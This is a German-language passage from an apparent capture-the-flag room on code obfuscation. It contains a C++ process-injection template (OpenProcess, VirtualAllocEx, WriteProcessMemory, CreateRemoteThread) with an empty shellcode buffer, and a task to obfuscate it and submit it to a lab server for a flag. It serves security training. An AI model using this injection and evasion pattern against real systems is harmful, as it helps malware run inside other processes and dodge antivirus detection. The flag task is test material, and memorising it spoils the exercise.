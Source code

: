 Nachdem Sie den Quellcode angemessen obfuskiert und die Symbole entfernt haben, kompilieren Sie ihn mit `MingW32-G++` und reichen Sie ihn auf dem Webserver unter `http://MACHINE_IP/` ein.

Hinweis: Der Dateiname muss `challenge-8.exe` lauten, um die Flagge zu erhalten.
```c++
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

## Fragen:
Welche Flagge wird nach dem Hochladen eines ordnungsgemäß obfuskierten Ausschnitts gefunden?
```

```

# Task 9 - Abschluss
Verschleierung kann eines der profitabelsten Werkzeuge im Arsenal eines Angreifers sein, wenn es um Ausweichmanöver geht. Sowohl Angreifer als auch Verteidiger sollten sowohl die Verwendungen als auch die Auswirkungen von Verschleierung verstehen und bewerten.

In diesem Raum haben wir die Grundprinzipien der Verschleierung behandelt, sowohl im Zusammenhang mit der Umgehung von Signaturen als auch mit der Anti-Rückwärtsentwicklung.

Die Techniken, die in diesem Raum gezeigt wurden, sind im Allgemeinen werkzeugunabhängig und können auf viele Anwendungsfälle angewendet werden, da sowohl Werkzeuge als auch Verteidigungen sich entwickeln.

